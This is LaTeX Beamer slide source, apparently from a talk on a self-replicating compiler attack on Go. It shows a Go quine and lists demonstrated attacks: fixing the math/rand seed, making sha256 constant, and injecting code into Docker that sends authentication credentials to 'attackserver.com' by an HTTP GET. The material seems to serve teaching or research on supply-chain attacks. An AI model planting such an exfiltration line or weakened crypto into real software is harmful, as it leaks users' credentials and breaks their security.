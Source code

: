 \documentclass{beamer}
\begin{document}
\begin{frame}{Quine}
	How do we make the compiler self-replicating?

\medskip

	 Using a \emph{quine} %

\end{frame}


\begin{frame}[fragile]{Quine}
A quine in Go:

\begin{figure}
\centering
\tiny
\begin{verbatim}
package main

import "fmt"

func main() {
  s := "package main\n\nimport \"fmt\"\n\nfunc main() {\n\ts := %#v\n\tfmt.Printf(s, s)\n}\n"
  fmt.Printf(s, s)
}
\end{verbatim}
\end{figure}
\normalsize
\end{frame}

\begin{frame}{Attacks}

We implemented the following attacks on the Go standard library:
\begin{itemize}
\item Fixed the \texttt{math/rand} seed to be constant
\item Fixed the \texttt{crypto/sha256} hash function to be constant
\end{itemize}

\end{frame}

\begin{frame}[fragile]{Attacks}
\begin{figure}
\centering
\includegraphics[scale=0.2]{docker}
\end{figure}

We also injected code into Docker, a container platform built in Go, to send authentication keys to a remote server.
\tiny
\begin{verbatim}
// this is a nice JSON structure containing username, password, etc.
var data = fmt.Sprintf("%#v", authConfig) 
resp, err := http.Get("http://attackserver.com?data=" + data)
\end{verbatim}
\normalsize
\end{frame}
\end{document}
